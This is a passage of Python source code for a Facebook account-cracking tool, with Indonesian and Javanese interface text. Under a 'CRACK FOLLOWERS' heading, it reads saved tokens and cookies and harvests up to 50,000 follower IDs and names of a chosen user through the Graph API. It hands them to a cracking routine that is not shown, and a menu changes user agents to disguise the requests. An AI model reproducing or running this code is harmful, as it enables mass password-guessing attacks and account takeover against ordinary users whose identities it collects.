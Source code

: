         print(f"{P}[•]{M} User id tidak di temukan atau akun tersebut privat ");menu()
    if len(id) !=0:
        print(f"{B} | ")
        print(f"{B} | ")
        print(f"{P}[•] Total id : {B}{len(id)}")
        fii_xd()
    else:print(f"{P}[•] Total id : {B}{len(id)}");exit()
        
###### CRACK FOLLOWERS
def followerss():
    try:
        token=open("login/token.json","r").read()
        cookie = {'cookie':open('login/cookie.json','r').read()}
    except IOError:
        print(f"{B} | ")
        print(f"{B} | ")
        print(f"{P}[•] cookie modar dinggo wae ");exit()
    print(f"{B} | ")
    print(f"{B} | ")
    print(f"{B} | ")
    _id_=input(f"{P}[•] Masukan user id : {B}")
    try:
        for i in requests.Session().get("https://graph.facebook.com/%s/subscribers?limit=50000&access_token=%s"%(_id_,token),cookies=cookie).json()["data"]:
            uid = i["id"]
            nama = i["name"]
            id.append(uid+"<=>"+nama)
    except KeyError:
        print(f"{B} | ")
        print(f"{B} | ")
        print(f"{P}[•]{M} User id tidak di temukan atau id terdsebut privat ");menu()
    if len(id) !=0:
        print(f"{B} | ")
        print(f"{B} | ")
        print(f"{P}[•] Total id : {B}{len(id)}")
        fii_xd()
    else:print(f"{P}[•] {M} total id : {M}{len(id)}")


##### PENGGANTI USER - UA
def userset():
    print(f"{B} | ")
    print(f"{B} | ")
    print(f"{P}[1] Ganti user agent")
    print(f"{P}[2] Cek user agent yang di gunakan")
    print(f"{P}[0] Kembali")
    print(f"{B} | ")
    _pil_=input(f"{P}[•] Pilih : {B}")
    if _pil_ in ["1","01"]:
        print(f"{B} | ")
        lololr=input(f"{P}[•] Masukan user agent \n{P}[•] Masukan di sini : {B}")
        try:
            open("ua","w").write(lololr)
            usera=open("ua","r").read()
        except Exception as e:
            print(f"{B} | ")
            print(f"{B} | ")
            print(f"{P}[•] Eror : {M}{e}")
        if usera == lololr:
            print(f"{B} | ")
            print(f"{B} | ")
            print(f"{P}[•] Sukses mengganti");menu()
        else:print(f"{P}[•]{M} Gagal mengganti user agent ");exit()
    